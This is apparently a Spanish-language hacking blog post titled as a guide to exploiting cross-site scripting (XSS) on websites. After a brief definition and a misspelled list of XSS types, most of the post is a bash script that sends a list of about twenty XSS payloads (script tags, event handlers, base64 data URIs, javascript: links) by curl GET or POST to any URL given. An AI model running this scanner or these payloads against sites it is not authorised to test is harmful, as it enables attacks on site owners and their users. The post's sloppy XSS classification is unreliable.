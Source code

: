 ```yaml
---
title: Hackea sitios web  Explotando un (XSS) - (Cross-Site Scripting) 💀
author: IRVING  ST (ak) th3hostname
date: 2023-01-5  12:00
categories: [Hacking,Vuln,Programacion,bash]
tags: [Hacking,Vuln,Programacion,bash]
---
```


> Github :  [https://github.com/th3hostname](https://github.com/th3hostname) - Twitter  :  [https://twitter.com/th3hostname](https://twitter.com/th3hostname)

###  La razon  por  la cual decidi crear  este articulo  es  que  aprenda  a explotar   un  (`Cross-Site Scripting`)  en  paginas `WEB` entiendas  que es  un (`Cross-Site Scripting`), puedas crear  scripts  para la  automatizacion de  un  (`Cross-Site Scripting`)
#### Primero  definamos   que es (`XSS`) o (`Cross-Site Scripting`) - El (`Cross-Site Scripting`) es un tipo de vulnerabilidad  que  permite  injectar  codigo similar a  lo  que es es  la (`SQLi`) o (`SQL  Injection`)  aplicación web que permite a un atacante injectar y  ejecutar   código malicioso en una pagina web entre  estos  e s posible   injectar codigo  (`Javascript,HTML,CSS`).

##

### Existen cuatro tipos  de  (`Cross-Site Scripting`)

>1. Cross-site scripting  **REFLEJADO** 
>2. Cross-site scripting  **ALAMECENADO**
>3. Cross-site scripting  **DOOM**
>4. Cross-site scripting  **BLINDADO**

Os  comparto  este script  en bash  para  efectuar un XSS  usando el  comando curl


     
      #!/bin/bash
 
      # Verifica que se haya proporcionado una URL y un método HTTP como argumento
     if [ -z "$1" ] || [ -z "$2" ]; then
        echo "Se deben proporcionar una URL y un método HTTP como argumentos"
        exit 1
     fi

     url=$1
     method=$2

     # Crea una lista con  etiquetas de inyección XSS
     xss_tags=(
      "<script>alert('XSS')</script>"
      "<img src='x' onerror='alert(\"XSS\")'>"
      "<div style='color: expression(alert(\"XSS\"));'>"
      "<svg><script>alert(1)</script></svg>"
      "<marquee><h1>XSS</h1></marquee>"
      "<body onload=alert(1)>"
      "<object data='data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4='>"
      "<iframe src='javascript:alert(\"XSS\")'>"
      "<link rel='import' href='data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4='>"
      "<embed src='data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4='>"
      "<math><a xlink:href='data:x,<script>alert(1)</script>'>CLICKME</a></math>"
      "<form><button formaction='javascript:alert(\"XSS\")'>XSS</button></form>"
      "<isindex type=image src=1 onerror=alert(1)>"
      "<frame src='javascript:alert(\"XSS\")'>"
      "<b><svg><script>alert(1)></script></svg></b>"
      "<details open ontoggle=alert(1)><summary>XSS</summary></details>"
      "<keygen onfocus=alert(1)>"
      "<audio src='data:audio/x;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4='>"
      "<video src='data:video/x;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4='>"
      )
      # Realiza una solicitud HTTP utilizando curl.
     for tag in "${xss_tags[@]}"; do
        echo "Probando etiqueta: $tag"
        if [ "$method" = "GET" ]; then
        # Envía la solicitud GET y muestra el código de estado HTTP de la respuesta
        status_code=$(curl -s -o /dev/null -w "%{http_code}" "$url?input=$tag")
        echo "Código de estado: $status_code"
        elif [ "$method" = "POST" ]; then
         # Envía la solicitud POST y muestra el código de estado HTTP de la respuesta
         status_code=$(curl -s -o /dev/null -w "%{http_code}" -X POST "$url" -d "input=$tag")
         echo "Código de estado: $status_code"
        else
          echo "Método HTTP no válido"
          exit 1
        fi
     done
     
